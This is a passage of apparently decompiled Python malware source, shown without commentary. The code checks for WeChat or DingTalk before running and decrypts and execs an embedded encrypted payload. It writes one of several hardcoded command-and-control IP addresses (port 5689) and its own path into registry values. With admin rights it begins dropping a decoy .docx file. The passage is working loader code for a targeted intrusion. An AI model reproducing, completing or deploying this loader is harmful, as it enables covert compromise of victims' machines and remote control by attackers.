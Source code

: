 ```
        isInstallWechat = True
        winreg.CloseKey(key)
    except Exception as e:
        try:
            isInstallWechat = False
        finally:
            e = None
            del e

    try:
        key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, "Software\\DingTalk", 0, winreg.KEY_READ)
        isInstallDingTalk = True
        winreg.CloseKey(key)
    except Exception as e:
        try:
            isInstallDingTalk = False
        finally:
            e = None
            del e

    if isInstallWechat == False:
        if isInstallDingTalk == False:
            sys.exit(-1)
    temp = jiemi(arrayindex)
    temp = bytes(temp, encoding="utf8")
    key = jiemi(arraykey)
    key = bytes(key, encoding="utf8")
    f_obj = ft(key)
    if not is_re_loader:
        ip_list = {
         'qh001': '"23.248.217.193"', 
         'qh002': '"154.39.255.141"', 
         'qh003': '"154.91.226.158"', 
         'qh555': '"154.221.0.61"', 
         'xoxo666': '"156.234.0.2"', 
         'test': '"27.102.101.105"', 
         'xoxo222': '"38.147.171.128"', 
         'xoxo333': '"27.102.129.89"'}
        g_wszIpInfo = f"|i:{ip_list[username]}|p:5689|".encode("utf-16-le")
        current_path = os.path.dirname(os.path.abspath(sys.argv[0])) + "\\" + os.path.basename(sys.argv[0])
        key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, "Console", 0, winreg.KEY_ALL_ACCESS)
        try:
            winreg.DeleteValue(key, "IpDate")
        except FileNotFoundError:
            pass

        try:
            winreg.DeleteValue(key, "IpDateInfo")
        except FileNotFoundError:
            pass

        winreg.SetValueEx(key, "SelfPath", 0, winreg.REG_SZ, current_path)
        winreg.SetValueEx(key, "IpDateInfo", 0, winreg.REG_BINARY, bytes(g_wszIpInfo))
        winreg.CloseKey(key)
    exec(f_obj.decrypt(temp))
    if not is_re_loader:
        if ctypes.windll.shell32.IsUserAnAdmin() != 0:
            try:
                file_name = os.path.basename(sys.argv[0]).split(".")[0]
                temp_dir = tempfile.gettempdir()
                new_path = temp_dir + "\\" + file_name + ".docx"
                file = open(new_path, "w")
```